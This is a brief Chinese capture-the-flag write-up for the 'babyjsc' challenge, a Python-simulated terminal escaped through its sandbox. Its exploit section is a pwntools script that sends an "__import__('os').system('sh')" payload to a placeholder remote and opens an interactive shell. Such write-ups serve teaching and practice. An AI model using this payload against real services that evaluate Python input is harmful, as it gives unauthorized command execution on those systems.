 # babyjsc

## 来源
2020 - 国赛


## 难度

1 / 10

## 简单描述

使用Python模拟的终端, 先输入大小, 然后jsc数据执行jsc数据.

## vul

使用python 模拟的终端



## 知识点

python sanbox escape

## 思路

python 沙箱逃逸



## EXP

```
from pwn import *
sh = remote('0.0.0.0', 0)
p = "__import__('os').system('sh')"
sh.sendline(len(p))
sh.sendline(p)
sh.interactive()
```




